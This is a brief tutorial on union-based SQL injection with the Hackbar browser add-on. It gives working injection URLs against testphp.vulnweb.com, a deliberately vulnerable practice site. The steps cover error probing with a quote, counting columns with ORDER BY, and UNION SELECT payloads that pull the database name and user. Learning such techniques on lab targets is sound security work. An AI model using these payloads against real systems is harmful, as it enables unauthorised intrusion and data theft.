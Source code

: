 # SQL Injection (UNION-BASED) -- Cyberfox (Hackbar)

Pre-requisite:
1. Cyberfox Browser - (Linux/Windows).<br>
    To install cyberfox on linux using .deb <pre>dpkg -i packagename.deb</pre>
2. Hackbar v2.9.xpi
3. noredirect-1.3.2.13-fx+sm.xpi
4. tamper-data.xpi


Open the target page:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1</pre>

Test for SQL injection vulnerability by adding ' in the last:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1'</pre>

If you see an SQL error like:
<pre>You have an error in your SQL syntax</pre>
it means the parameter is likely vulnerable to SQL injection.

Exploit SQL Injection (UNION-Based)
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1 ORDER BY 3--</pre>
If the page works fine, try increasing the number: ORDER BY 4--, ORDER BY 5--…
When you get an error, go back to the last number that worked. That’s your number of columns.

Once you know the number of columns, say 3, try:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=-1 UNION SELECT 1,2,3--</pre>
You’ll see values like 1, 2, 3 appear on the page — it confirms the injection.

You can now extract useful data like:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=-1 UNION SELECT 1, database(), user()--</pre>


